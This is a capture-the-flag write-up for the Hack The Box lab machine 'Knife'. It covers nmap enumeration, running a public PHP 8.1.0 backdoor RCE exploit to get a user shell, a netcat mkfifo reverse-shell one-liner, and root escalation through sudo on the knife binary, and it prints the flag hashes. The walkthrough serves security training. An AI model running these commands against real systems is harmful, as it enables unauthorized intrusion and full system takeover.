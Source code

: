 OS: Linux\
Points: 20\
Difficulty: Easy

ip=10.10.10.242

## User solution

The first thing is to do the nmap scan.

```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ip=10.10.10.242

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ nmap -sC -sV -p$ports $ip -oA nmap_result
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:29 EDT
Nmap scan report for 10.10.10.242
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```

Now lets look at website at port 80. \
From the nmap scan we know that the server uses Apache 2.4.41 and Ubuntu OS. Using Wappalyzer we found it also uses PHP 8.1.0.\

There is a RCE exploit for PHP 8.1.0. Download it from [exploit-db](https://www.exploit-db.com/exploits/49933).

Run the exploit and got the flag

```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ python3 exploits/49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

$ pwd
/

$ cd /home/james; ls; cat user*
authorized_keys
hello
hello.rb
user.txt
aec6c92f2b998dc3912f334ac0c69ed5
```

## Root solution

Before procedding lets get a reverse shell at port 5454 with `mkfifo /tmp/f; nc <local-ip> 5454 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and run `nc -lvnp 5454` before running the command.

I was unable to do the root part while the machine was active. Later from a help I realized I forgot to check GTFObins.

Coming to the process first we have to see which executables we can run as sudo.

```console
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

Search GTFObins for knife you will get a command for shell

```console
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# cat root/root.txt
b1c946e0dcc0715cb9039799fe824278
```
